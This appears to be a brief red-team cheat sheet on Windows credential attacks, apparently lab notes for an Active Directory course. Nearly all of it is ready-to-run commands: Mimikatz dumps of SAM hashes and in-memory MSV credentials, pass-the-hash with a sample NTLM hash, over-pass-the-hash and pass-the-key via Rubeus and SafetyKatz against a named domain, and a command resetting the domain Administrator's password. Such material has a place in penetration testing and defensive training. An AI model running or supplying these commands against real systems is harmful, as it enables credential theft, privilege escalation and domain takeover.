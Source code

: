 # Hashes

## Dump Hashes

### **1st way**

#### **Dump Hashes from Sam file**

```powershell
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "lsadump::sam""exit"'
```

### **2nd way**

#### **dump MSV credentials from memory**

```powershell
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "sekurlsa::msv""exit"'
```

***

## Pass-the-Hash

Uses the NTLM hash directly to authenticate without knowing the real password.

```powershell
sekurlsa::pth /user:**Administrator** /ntlm:a102ad5753f4c441e3af31c97fad86fd /domain:pdc /run:powershell.exe
# replace with target user
```

***

## Over Pass The Hash

Uses the NTLM hash to request a **Kerberos TGT**, then uses the TGT to authenticate anywhere in the domain.

```powershell
Rubeus.exe asktgt /user:SHALBY /rc4:5D88C6E440C1B976A9C1A2EF6AD66083  /ptt

# machine user

Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys>  /run:cmd.exe" "exit"

Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\\Windows\\System32\\cmd.exe /show /ptt
```

***

## Pass-the-Key

**Pass-the-Key (PtK)** uses **Kerberos keys** (AES/DES keys from tickets) instead of passwords or NTLM hashes to authenticate to services.

```powershell
sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:powershell.exe

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:cmd.exe" “exit”
```

```powershell
net user Administrator "test@123" /dom
```
